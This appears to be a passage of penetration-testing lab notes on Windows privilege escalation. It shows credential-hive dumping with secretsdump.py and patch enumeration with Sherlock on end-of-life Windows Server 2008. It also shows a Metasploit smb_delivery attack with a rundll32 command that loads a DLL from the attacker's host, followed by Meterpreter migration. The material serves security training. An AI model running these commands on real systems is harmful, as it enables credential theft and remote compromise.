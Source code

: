 In Windows, we can right-click on the file and choose **Mount**, or use the **Disk Management** utility to mount a **.vhd** or **.vhdx** file. If we can locate a backup of a live machine, we can access the `C:\Windows\System32\Config`{: .filepath}:
```console
zero@pio$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

---

# End of Life Systems

Over time, Microsoft decides to no longer offer ongoing support for specific operating system versions. [This](https://michaelspice.net/windows/end-of-life-microsoft-windows-and-office/) page has a detail list of end-of-life (EOL) for Microsoft Windows. 

## Windows Server 

Windows Server 2008/2008 R2 were made end-of-life on January 14, 2020. For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. Let's first use WMI to check for missing KBs:
```console
C:\zeropio> wmic qfe
```

Let's run Sherlock to gather more information:
```console
PS C:\htb> Set-ExecutionPolicy bypass -Scope process

... Y

PS C:\zeropio> Import-Module .\Sherlock.ps1
PS C:\zeropio> Find-AllVulns
```

Search for the CVE we encounter. For example, we can use the `smb_delivery` Metasploit module:
```console
msf6 > use exploit/windows/smb/smb_delivery
msf6 exploit(windows/smb/smb_delivery) > show options
msf6 exploit(windows/smb/smb_delivery) > show targets
msf6 exploit(windows/smb/smb_delivery) > set target 0
```

Open a cmd console on the target host and paste in the `rundll32.exe` command:
```console
C:\zeropio> rundll32.exe \\<OUR IP>\lEUZam\test.dll,0
```

We get a call back quickly. We can use the [CVE-2010-3888 and CVE-2010-3388](https://www.exploit-db.com/exploits/19930):
```console
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338
msf6 exploit(windows/smb/smb_delivery) use 0
```

Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process:
```console
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1
meterpreter > getpid
meterpreter > ps
meterpreter > migrate <PID>
meterpreter > bg
```
